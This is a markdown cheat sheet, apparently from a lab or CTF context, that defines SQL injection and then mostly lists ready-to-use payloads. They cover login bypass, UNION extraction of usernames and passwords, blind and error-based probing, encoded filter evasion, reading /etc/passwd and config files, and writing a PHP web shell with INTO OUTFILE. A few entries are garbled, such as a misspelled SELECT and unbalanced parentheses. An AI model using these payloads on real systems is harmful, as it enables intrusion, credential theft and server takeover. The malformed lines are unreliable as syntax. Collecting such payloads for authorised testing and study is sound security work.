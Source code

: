 

## What is SQL Injection ? 

- **SQL Injection is a web vulnerability where an attacker ==injects malicious SQL code into an application’s database query via user input== (e.g., a URL parameter, form field, or cookie).**

- *If the app doesn’t sanitize inputs, the injected code can manipulate the query to extract data, bypass authentication, or even execute commands.


## SQL Injection Cheat sheet : 

https://portswigger.net/web-security/sql-injection/cheat-sheet

## List of payloads of SQLi : 


1. **Classic SQLi Payloads** : 

	- `1 OR 1=1`
	- `1 OR '1'='1`
	- `1' OR '1'='1`
	- `1" OR "1"="1`
	- `1 --`
	- `1 #`
	- `1/*`
	- `1' --`
	- `1' #`
	- `1'/*`
	
2. **Authentication Bypass Payloads :  

	- `admin' OR 1=1 --`
	- `admin' OR '1'='1' --`
	- `admin' OR 1=1#`
	- `admin' OR '1'='1'#`
	- `admin' OR 1=1/*`
	- `jeremy' OR 1=1#`
	- `jeremy' OR '1'='1' --`
	- `' OR ''='`
	- `' OR '1'='1`
	- `admin" OR "1"="1 --`
	- `") OR ("1"="1`
	- `') OR ('1'='1`

3. **UNION-Based Payloads : 

	- `1 UNION SELECT 1,2`
	- `1 UNION SELECT 1,2,3`
	- `1 UNION SELECT 1,@@version,3`
	- `1 UNION SELECT 1,database(),3`
	- `1 UNION SELECT 1,schema_name,3 FROM information_schema.schemata`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='lab_db'`
	- `1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'`
	- `1 UNION SELECT 1,username,password FROM users`
	- `1 UNION SELECT 1,flag,3 FROM flags`
	- `1 UNION SELECT 1,secret,3 FROM secrets`
	- `1 UNION SELECT 1,concat(username,':',password),3 FROM users`
	- `1 UNION SELECT 1,2,3 (for invalid IDs)`
	- `1 UNION ALL SELECT 1,2,3`

4. **Blind Boolean-Based Payloads : 

	- `1 AND 1=1`
	- `1 AND 1=2`
	- `1 AND (SELECT 1 FROM users WHERE username='admin')=1`
	- `1 AND (SELECT 1 FROM users WHERE username='jeremy')=1`
	- `1 AND (SELECT count(*) FROM users)>0`
	- `1 AND (SELECT length(database()))=7`
	- `1 AND ascii(substring((SELECT database()),1,1))=108 (extracts l from lab_db)`

5. **File Operation Payloads (MySQL) : 

	- `1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/flag.txt'),3`
	- `1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'`
	- `1 UNION SELECT 1,@@secure_file_priv,3 (check file access restrictions)`

6. **Encoded Payloads (Bypass Filters) : 

	- `1%27%20OR%20%271%27=%271 (' OR '1'='1)`
	- `%27%20OR%201=1%23 (' OR 1=1#)`
	- `1%20UNION%20SELECT%201%2C@@version%2C3`
		-  `1%20AND%20IF%28ascii%28substring%28%28SELECT%20database%28%29%29%2C1%2C1%29%29=108%2CSLEEP%285%29%2C0%29`

7. **Miscellaneous Payloads : 

	- `1 ORDER BY 1 (test column count)`
	- `1 ORDER BY 2`
	- `1 ORDER BY 3`
	- `1 UNION SELECT 1,v` ersion (), 3
	- `1 AND (SELECT 1)=1`
	- `1' AND '1'='1`
	- `1" AND "1"="1`
	- `1 OR true`
	- `1 AND false`

8. **Error-Based Payloads (MySQL) : 

	- `1 AND extractvalue(1,concat(0x7e,(SELECT @@version)))`
	- `1 AND (SELECT 1 FROM (SELECT count(*),concat((SELEC database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) ) )a)`
	- `1' AND extractvalue(1,concat(0x7e,(SELECT username FROM users LIMIT 0,1)))#`